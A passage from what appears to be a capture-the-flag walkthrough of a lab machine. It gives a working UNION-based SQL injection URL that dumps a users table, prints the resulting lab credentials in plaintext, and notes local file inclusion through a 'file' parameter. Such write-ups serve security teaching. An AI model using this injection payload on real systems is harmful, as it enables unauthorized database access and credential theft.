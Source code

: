 The columns of table users are:
- id
- email
- username
- password

**v) Dumping all data**

The following payload extract first entry from table. In order to dump all the data we need to increase limit squentially.
```
http://192.168.1.223/admin/backup/?id=99 or 1=2 union select (select concat(id," ",email," ",username," ",password) from users limit 0,1)
```
![m10](/assets/img/m87/m10.png)

In this way you can extract all the data from mysql database manually.
The final table is:

|Id | Email | Password | Username|
| ----- | -------------- |---------- | ---------- |
|1|jack@localhost|gae5g5a|jack|
|2|ceo@localhost|5t96y4i95y|ceo|
|3|brad@localhost|gae5g5a|brad|
|4|expenses@localhost|5t96y4i95y|expenses|
|5|julia@localhost|fw54vrfwe45|julia|
|6|mike@localhost|4kworw4|mike|
|7|adrian@localhost|fw54vrfwe45|adrian|
|8|john@localhost|4kworw4|john|
|9|admin@localhost|15The4Dm1n4L1f3|admin|
|10|alex@localhost|dsfsrw4|alex|


I tired this creds on different login panels but no luck.
# LFI

With another parameter `file` we can read local files.

![file](/assets/img/m87/file.png)

Here we found system user `charlotte`.

# Port 9090
On port 9090 we have login page.
